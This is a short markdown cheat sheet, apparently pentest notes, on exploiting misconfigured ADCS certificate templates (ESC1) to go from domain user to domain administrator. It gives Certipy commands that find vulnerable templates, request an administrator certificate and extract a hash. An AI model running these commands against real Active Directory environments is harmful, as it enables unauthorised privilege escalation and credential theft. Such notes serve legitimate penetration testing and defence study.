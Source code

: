 # ADCS Template Misconfigurations

## Intro
Templates, by default, are not vulnerable but made vulnerable by human-made misconfigurations. When writing this blog, these misconfigurations are divided into 11 parts (ESC1-ESC11).     
By exploiting this type of vulnerable Template, a domain user can escalate his privileges to that of a domain administrator in a Windows Active Directory Environment. 


## Overview
### ESC1
- The template must have **Enrollment Rights** set, so that the attacker can request a new one from the Certificate Authority.
- No manager approval is required
- **Enrollee Supplies Subject** is set to **True** so that we can supply *SAN*.
- **Extended Key Usage:** Client Authentication means the generated certificate based on this Template can authenticate to the domain computers. 


## Tools needed
- [Certipy](https://github.com/ly4k/Certipy)


## ESC1 exploitation
### Remote
```sh
# Find vulnerable templates
certipy find -u <username> -p <password> -target <ip> -text -stdout -vulnerable

# Request certificate
certipy req -u <username> -p <password> -target <ip> -upn administrator@domain.local -ca <cert_auth> -template <template_nmae>

# Get hash from the cerificate
certipy auth -pfx <certificate>
```

## References
- [https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/](https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/)
- [https://0xdf.gitlab.io/2023/06/17/htb-escape.html#abuse-template](https://0xdf.gitlab.io/2023/06/17/htb-escape.html#abuse-template)